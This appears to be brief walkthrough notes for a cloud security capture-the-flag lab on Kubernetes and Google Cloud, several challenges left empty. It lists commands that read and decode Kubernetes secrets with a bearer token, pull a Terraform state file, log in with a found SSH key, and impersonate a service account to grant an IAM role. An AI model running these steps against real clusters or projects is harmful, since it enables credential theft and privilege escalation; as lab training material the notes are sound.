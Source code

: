 # Setup

set project id
#####
    export PROJECT_ID=nodal-seer-306517

# Challenge 1

set cluster IP
#####
    export IP=<IP>

Access API
#####
    curl -k https://$IP/api

Set your token as environment variable.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

## Walkthrough

You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets

The secret values are base64 encoded. Decode them to read the value:  
#####
    echo -n <secret-value> | base64 -d  


# Challenge 2

# Challenge 3

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate
    
ssh into vm
      ssh -i <private key file> alice@<compute instance IP> 

# Challenge 4

# Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

## Walkthrough

impersonate and set binding
#####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>

